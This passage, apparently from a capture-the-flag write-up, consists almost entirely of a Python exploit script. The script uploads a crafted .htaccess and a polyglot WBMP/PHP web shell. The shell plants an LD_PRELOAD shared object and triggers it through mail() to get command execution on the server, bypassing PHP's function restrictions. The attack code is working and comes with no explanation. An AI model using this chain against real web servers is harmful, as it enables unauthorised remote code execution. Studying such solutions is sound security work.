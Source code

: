 ```python
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .corb3nik
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"""
<?php
move_uploaded_file($_FILES['captcha_solver']['tmp_name'], '/tmp/captcha_solver.corb3nik');
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/corb3nik_you_idiot');
putenv('LD_PRELOAD=/tmp/corb3nik_you_idiot');
putenv("_evilcmd=chmod +x /tmp/captcha_solver.corb3nik");
mail('a','a','a');
putenv("_evilcmd=cd / && /tmp/captcha_solver.corb3nik");
mail('a','a','a');
echo file_get_contents('/tmp/_0utput.txt');
?>
""")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.corb3nik", TARGET_FILE)
upload_content("trigger.corb3nik", VALID_WBMP)


files = { "evil" : open("../payloads/evil.so", "rb"),
         "captcha_solver" : open("../payloads/captcha_solver", "rb") }
response = requests.post(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.corb3nik", files=files)
print(response.text)
```



## It's funny

![lol.png](.gitbook/assets/image%20%28118%29.png)